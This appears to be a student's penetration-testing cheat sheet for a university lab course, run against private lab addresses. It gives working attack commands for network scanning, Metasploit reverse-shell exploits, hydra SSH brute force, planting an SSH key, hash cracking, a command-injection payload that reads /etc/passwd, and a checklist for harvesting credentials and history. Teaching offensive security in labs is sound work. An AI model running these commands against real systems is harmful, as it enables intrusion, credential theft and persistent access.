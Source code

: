 # PB177 Cheatsheet

## [Labs](./labs/README.md)

## [Lab image history](./image-history/README.md)

## [Podman cheatsheet](./podman/README.md)

## Useful websites
- vulnerability search
	- https://www.google.com/
	- https://nvd.nist.gov/vuln/search
- hash type identifier
	- https://hashes.com/en/tools/hash_identifier

## Strategy & Commands

- [Scanning network](#scanning-network)
- [Searching vulnerabilities](#searching-vulnerabilities)
- [Exploiting vulnerability](#exploiting-vulnerability)
- [Password guessing](#password-guessing)
- [Password cracking](#password-cracking)
- [Command injection](#command-injection)
- [Lateral movement](#lateral-movement)
- [What to always check](#what-to-always-check)

### Scanning network

1. scan network for hosts
```sh
nmap -T5 10.0.33.0/24
```

2. scan host for open ports, application versions, operating system, vulnerabilities
```sh
nmap -T5 -p- -sS -sV -O -Pn 10.0.33.50
```

3. scan port for vulnerabilities (extremely slow - can skip)
```sh
nmap -p 443 --script=vuln -Pn 10.0.66.201
```

4. resolve hostnames
```sh
host 10.0.33.50
```

5. get info about company from certificates
```sh
nmap --script ssl-cert 10.0.66.201 
```

6. scan publicly accessible directories at web servers
```sh
dirb https://10.0.66.201

nmap --script=http-enum 10.0.66.201
```

7. check if host is online
```
ping -c 1 10.0.0.254 && echo "Host is ONLINE" || echo "Host is OFFLINE"
```

### Searching vulnerabilities

1. run linpeas
```sh
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
podman cp linpeas.sh attacker:~/linpeas.sh
```

2. search anything sus with google

### Exploiting vulnerability

1. search metasploit for exploit
```sh
search webmin
info 0
```

2. test out exploit
```sh
use 0
set RHOST 10.0.33.80
set LHOST eth0 # for reverse shell
set RPORT 10000
show options
check
```

### Password guessing

1. create a wordlist with AI (should be a small file)
```sh
# might need to convert to ascii
cat wordlist.txt | iconv -f utf-8 -t ascii//TRANSLIT > output.txt
file output.txt
```

2. run hydra (should give result right away !!!)
```sh
hydra -l username -P wordlist.txt ssh://10.0.88.2
```

3. connect through ssh and add ssh pub key
```sh
ssh test@10.0.33.110
mkdir -p ~/.ssh
ssh-keygen -t ed25519 -C "email@example.com"
scp .ssh/id_ed25519.pub test@10.0.33.110:~/.ssh/authorized_keys
```

### Password cracking

1. save hash in file

2. get hash type from google search

3. crack with john
```sh
john --format=Raw-MD5 passwords.txt
```

### Command injection

1. find out the request format

2. forge command injection
```sh
curl -s http://10.0.0.10:80/vulnerabilities/exec/ -X POST --data-raw 'ip=10.0.0.254;cat /etc/passwd&Submit=Submit' | lynx -nolist -dump -stdin
```

### Lateral movement

1. check for more hosts on the system

2. connect to them

3. collect info as you go

### What to always check

- run Linpeas

- DNS configuration
```sh
cat /etc/resolv.conf
```

- message of the day
```sh
cat /run/motd.dynamic
cat /var/run/motd.dynamic
```

- bash history
```sh
cat ~/.bash_history
```

- ssh directory
```
ls ~/.ssh
```

- other users
```sh
cat /etc/passwd
```

- files
```sh
find / -name "*.docx"
```

- logs
```sh
cat /var/log/auth.log
cat /var/log/syslog
```
